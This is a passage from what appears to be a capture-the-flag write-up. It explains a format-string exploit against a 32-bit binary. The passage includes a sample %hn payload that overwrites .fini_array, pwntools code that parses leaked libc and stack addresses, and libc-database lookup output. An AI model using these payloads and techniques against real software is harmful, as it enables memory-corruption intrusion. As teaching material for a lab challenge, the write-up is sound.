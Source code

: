 From the stack output above (look for the 2nd `blah`), the format string starts at parameter 7.

The payload only has to overwrite the lower 16-bits of `.fini_array`.  Parameters 7 and 8 will instruct `printf` to emit `34102` (`binary.symbols['main']) & 0xFFFF`) bytes, while incrementing an internal `printf` counter, that will then be stored at the address from parameter 14 (the address to `.fini_array`).

> We have to be careful to keep our format string addresses aligned with the stack, hence some of the clumsy padding. It is also a good idea to put all the addresses at the end of the string in case they have nulls.  Also important to keep the `%n` strings first to make the math easier.  

Sandwiched in the middle is the leak for the libc and stack addresses.

This will create a payload that looks something like this:

```
%034102x%14$hn  %2$p %19$p  \xac\x9b\x04\x08
```

At the end of the `NAUGHTY LIST` output, collect the leaked libc and stack addresses, then use that to compute the base of libc and the return address needed to overwrite the stack in the second pass:

```
p.recvuntil('You are on the NAUGHTY LIST ')
_ = p.recvline().strip()[-27:]

_IO_2_1_stdin_ = int(_[:10],16)
print('_IO_2_1_stdin_',hex(_IO_2_1_stdin_))
baselibc = _IO_2_1_stdin_ - libc.symbols['_IO_2_1_stdin_']
print('baselibc',hex(baselibc))

offset = 0x98
return_address = int(_[11:21],16) - offset
print('return_address',hex(return_address))
```

However, the version of libc is unknown.  This can be solved by using the last three nibbles from `print('_IO_2_1_stdin_',hex(_IO_2_1_stdin_))` and searching the [libc-database](https://github.com/niklasb/libc-database):

```
# libc-database/find _IO_2_1_stdin_ 5c0 | grep 386
archive-old-glibc (id libc6-i386_2.26-0ubuntu2.1_amd64)
archive-old-glibc (id libc6-i386_2.26-0ubuntu2_amd64)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6-i386_2.27-3ubuntu1_amd64.deb (id libc6-i386_2.27-3ubuntu1_amd64)
archive-old-glibc (id libc6-i386_2.28-0ubuntu1_amd64)
http://http.us.debian.org/debian/pool/main/g/glibc/libc6-i386_2.28-10_amd64.deb (id libc6-i386_2.28-10_amd64)
archive-old-glibc (id libc6-i386_2.29-0ubuntu2_amd64)
archive-old-glibc (id libc6_2.26-0ubuntu2.1_i386)
archive-old-glibc (id libc6_2.26-0ubuntu2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_i386.deb (id libc6_2.27-3ubuntu1_i386)
archive-old-glibc (id libc6_2.28-0ubuntu1_i386)
http://http.us.debian.org/debian/pool/main/g/glibc/libc6_2.28-10_i386.deb (id libc6_2.28-10_i386)
archive-old-glibc (id libc6_2.29-0ubuntu2_i386)
```

